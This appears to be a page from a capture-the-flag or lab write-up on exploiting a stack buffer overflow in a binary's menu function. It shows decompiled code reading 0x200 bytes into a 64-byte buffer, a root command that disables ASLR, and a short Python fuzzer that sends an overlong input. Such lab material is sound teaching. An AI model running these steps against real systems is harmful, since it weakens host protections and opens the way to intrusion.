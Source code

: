 After take a look con ghidra code, we are interesting on buffer overflow from star function (option 1: Make a wish)
```python
void star(void)

{
  char local_4a [2];
  undefined local_48 [64];
  
  read(0,local_4a,2);
  if (local_4a[0] == '1') {
    write(1,&DAT_00402008,3);
    read(0,local_48,0x200);
    write(1,"\nMay your wish come true!\n",0x1a);
  }
  else if (local_4a[0] == '2') {
    write(1,"Isn\'t the sky amazing?!\n",0x18);
  }
  else if (local_4a[0] == '3') {
    write(1,
          "A star is an astronomical object consisting of a luminous spheroid of plasma held togethe r by its own gravity. The nearest star to Earth is the Sun. Many other stars are visible t o the naked eye from Earth during the night, appearing as a multitude of fixed luminous po ints in the sky due to their immense distance from Earth. Historically, the most prominent  stars were grouped into constellations and asterisms, the brightest of which gained prope r names. Astronomers have assembled star catalogues that identify the known stars and prov ide standardized stellar designations.\n"
          ,0x242);
  }
  return;
}
```

We'll try to overflow undefined local_48 [64]; on read.

# Disabling ASLR
As before, we don't want the added complexity of Address Space Layout Randomization for this project, so we'll turn it off.
In a Terminal window, execute this command: 

```shell
echo 0 > /proc/sys/kernel/randomize_va_space 
```
# Making a Python Fuzzer
There a lot of ways/tools to create patterns, search offsets, but for now we want to do it step by step following this way.
Create python fuzz.py script ass follow. First print 1 menu option and after print A *75 lenght since array is 64 lenght
```python
#!/usr/bin/python
print (1)
print ('A' * 75)
```
